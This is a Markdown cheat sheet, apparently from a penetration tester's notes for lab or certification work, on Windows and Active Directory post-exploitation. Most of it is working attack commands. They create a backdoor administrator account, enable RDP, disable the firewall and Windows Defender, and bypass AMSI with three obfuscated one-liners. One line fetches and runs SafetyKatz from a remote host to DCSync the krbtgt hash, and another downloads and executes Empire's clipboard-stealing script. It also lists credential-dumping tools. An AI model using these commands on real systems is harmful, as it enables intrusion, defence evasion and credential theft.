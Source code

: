 ```yaml
---
description: Active Directory Post Exploitation Checklists
---
```


# Post Exploitation

## RDP Stuff

### Add Local Administrator

Create user **asuka** and add to RDP, Admin, and WinRM.

{% code overflow="wrap" %}
```powershell
net user asuka 'TrYh@rdeR!' /add
net localgroup "Remote Desktop Users" asuka /add
net localgroup "Administrators" asuka /add
net localgroup "Remote Management Users" asuka /add
```
{% endcode %}

### Enable RDP Access

{% code overflow="wrap" %}
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -
name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# In case powershell is not enabled (like in old machine)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
{% endcode %}

### Access RDP

{% code overflow="wrap" %}
```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:support.htb /u:asuka /p:'TrYh@rdeR!' +nego /drive:Tools,/home/asuka/Tools/ActiveDirectory/
rdesktop support.htb

# fix ERRCONNECT_TLS_CONNECT_FAILED
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:support.htb /u:asuka /p:'TrYh@rdeR!' +nego /drive:Tools,/home/asuka/Tools/ActiveDirectory/
rdesktop support.htb /tls-seclevel:0
```
{% endcode %}

## Defender and Firewall Stuff

### Turn Off Firewall

{% code overflow="wrap" %}
```powershell
# powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
# cmd
netsh advfirewall set allprofiles state off
```
{% endcode %}

### Disable Defender Real Time Monitoring

{% code overflow="wrap" %}
```powershell
# Remove Defender Database
cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

Get-MpComputerStatus
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -ExclusionExtension "ps1"
Set-MPPreference -DisableBehaviorMonitoring $true

# Disable AMSI (set to 0 to enable)
Set-MpPreference -DisableScriptScanning 1 

# Check all exclusion folder
Get-MpPreference | Select-Object -Property ExclusionPath -ExpandProperty ExclusionPath
# Add folder exclusion (in case tamper protection is enabled)
Add-MpPreference -ExclusionPath C:\Mimikatz\

# Disable Real Time Protection
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```
{% endcode %}

### Bypassing PowerShell Security

Using InviShell - https://github.com/OmerYa/Invisi-Shell

{% code overflow="wrap" %}
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
{% endcode %}

### AMSI Bypass

Detection: [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)

{% tabs %}
{% tab title="2023" %}
{% code overflow="wrap" %}
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
{% endcode %}
{% endtab %}

{% tab title="CRTP" %}
{% code overflow="wrap" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}
{% endtab %}
{% endtabs %}

### OPSEC with Loader

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -path http://172.16.100.67/SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}

### Get-ClipboardContents

Monitors the clipboard on a specified interval for changes to copied text.

{% code overflow="wrap" %}
```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1);Get-ClipboardContents
```
{% endcode %}

### WADComs

WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.

* [https://wadcoms.github.io/](https://wadcoms.github.io/)

### Dump Saved Password

* [BrowserStealer](https://github.com/SaulBerrenson/BrowserStealer)
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
* Mimikatz

### TCP Port Scanner

{% code overflow="wrap" %}
```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.8.1",$_)) "Port $_ is open!"} 2>$null # powershell
```
{% endcode %}

### Ping Sweep

{% code overflow="wrap" %}
```powershell
for /l %i in (1,1,254) do @ping -n 1 -w 100 172.16.8.%i > nul && echo 172.16.8.%i is up. # cmd
```
{% endcode %}

### Inveigh

Responder, but in Powershell/C#

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

### MDE Enum

How to extract Windows Defender Exclusions and Attack Surface Reduction (ASR) rules without Admin privileges

* [https://github.com/0xsp-SRD/MDE\_Enum](https://github.com/0xsp-SRD/MDE\_Enum)

{% code overflow="wrap" %}
```bash
# local
mde-enum.exe /local /paths /access
# remote
mde-enum.exe <ip> <username> <password> <domain> /paths
# i.e
.\mde-enum.exe 172.16.8.148 asuka Asuka@1337 child.zerobyte.lab /paths
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg-s8CjvYH04yAIm9dffLa8xRTnARSQR9gd8WKp6fZxTrQEMkCc-NAlewZB_1H5nAQzO4zxKf1FUQTfKLGKoTfTSIs6L3FmkbbMoXZggddyNVk5SlYwrqshBUKujEWox-CIOs25DspgkCVe9FQwcN8owuUqLZfh1JMlr0b3qawe1JMJMkyYbO_58cnPRX8/s872/mde-enum.png" alt=""><figcaption><p>MDE Enum</p></figcaption></figure>

Or, use this Powershell script.

```powershell
$logName = "Microsoft-Windows-Windows Defender/Operational"
$eventID = 5007
$events = Get-WinEvent -LogName $logName | Where-Object { $_.Id -eq $eventID }
$exclusionEvents = $events | Where-Object { $_.Message -match "Exclusions" }
$pattern = "HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Exclusions\\Paths\\[^\s]+"
$exclusionEvents | ForEach-Object {
    if ($_.Message -match $pattern) {
        $matches[0]
    }
}
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEizy7s-PGsq5vpXfy6QMsH7TTl3qm5lWLyL8oNYRVVa3vIjHK4EAg3gKIszCqdCjjm-LRAGNGmfpWkBvpRAg8MwWaL2J-2XKo6HdmwJpynygsbkUXmyg0M3ikgGyt5Hq1gga3GQA04CDqoMqRW6NZuFWP-D2rTnHrIrZNuszuphAH56xwx2x1XJtpGkaBw/s742/mde-enum-powershell.png" alt=""><figcaption><p>Enumerate Defender Exclusions</p></figcaption></figure>

Reference:

* [https://x.com/VakninHai/status/1796628601535652289](https://x.com/VakninHai/status/1796628601535652289)

### Other Useful Stuff

* [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

